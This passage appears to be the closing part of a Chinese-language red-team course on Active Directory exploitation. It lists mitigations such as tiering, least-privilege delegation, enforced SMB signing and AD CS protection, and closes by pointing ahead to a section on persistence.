AD 的利用，就像 AD 的枚举一样，非常难以防御。这是因为可能被视为可利用的配置错误实际上具有实际的业务用例。但是，我们可以采取一些措施来防止利用：

- 我们需要确保没有任何配置会破坏我们的分层模型。低层级的帐户不应具有与高层级资源交互的能力。此外，来自高层级的帐户不应登录到低层级的资源上。
- 在执行权限委派时应遵循最小权限原则。此外，权限委派应符合分层模型，确保较低层级的对象不能更改较高层级的对象。
- 应强制执行 SMB 签名，而不仅仅是启用。这将阻止凭据中继尝试。
- AD 对象及其配置并不是利用的唯一路径。AD 服务，如 AD CS，也应被视为攻击面的一部分并进行保护。
- 我们需要实施足够的安全控制来保护零级基础设施和我们子域中的帐户，因为其中一个的妥协可能导致整个林的妥协。

AD 的利用已经完成，接下来的步骤是深入挖掘我们的根权限，以确保蓝队不能简单地清除我们的访问权限。这将在下一个环节中讨论。
